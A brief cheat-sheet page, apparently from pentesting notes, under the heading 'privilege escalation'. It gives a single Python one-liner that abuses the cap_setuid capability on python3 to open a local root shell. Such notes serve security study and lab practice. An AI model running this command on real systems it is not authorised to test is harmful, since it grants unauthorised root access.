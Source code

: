 ```yaml
---
title: privilege escalation
weight: 23
---
```


# capabilities
----------------

exploit `cap_setuid` capability on python3 to gain a local root-shell
```shell
python3 -c 'import os; os.setuid(0); os.system("/bin/sh")'
```
----------------
